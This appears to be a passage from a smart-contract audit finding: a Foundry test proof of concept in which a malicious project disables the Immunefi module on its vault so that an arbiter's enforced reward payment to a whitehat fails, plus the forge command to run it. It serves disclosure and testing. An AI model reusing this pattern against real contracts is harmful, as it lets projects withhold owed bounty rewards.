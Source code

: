 ```sol
            0,
            abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            disableImmunefiModuleSignature
        );

        // 3. Critical issue gets fixed/resolved and protocol owner deactivates emergency shutdown.
        vm.prank(protocolOwner);
        emergencySystem.deactivateEmergencyShutdown();

        // 4. Whitehat approves spending the fee amount for an arbitration.
        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // 5. Whitehat signs request for arbitration
        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        // 6. Whitehat requests arbitration and pays the fee.
        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);

        vm.deal(address(vault), 110 ether);
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);

        // 7. Arbiter enforces sending reward to the whitehat.
        //    The txn fails since the malicious project has disabled ImmunefiModule which results in GS104 error.
        vm.startPrank(arbiter);
        arbitration.enforceSendRewardWhitehat(
            arbitrationId,
            new Rewards.ERC20Reward[](0),
            100 ether,
            vaultDelegate.UNTRUSTED_TARGET_GAS_CAP(),
            true
        );
        vm.stopPrank();
    }
```

Run the PoC via:

```sh
forge test --mt "testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown" -vvvvv
```


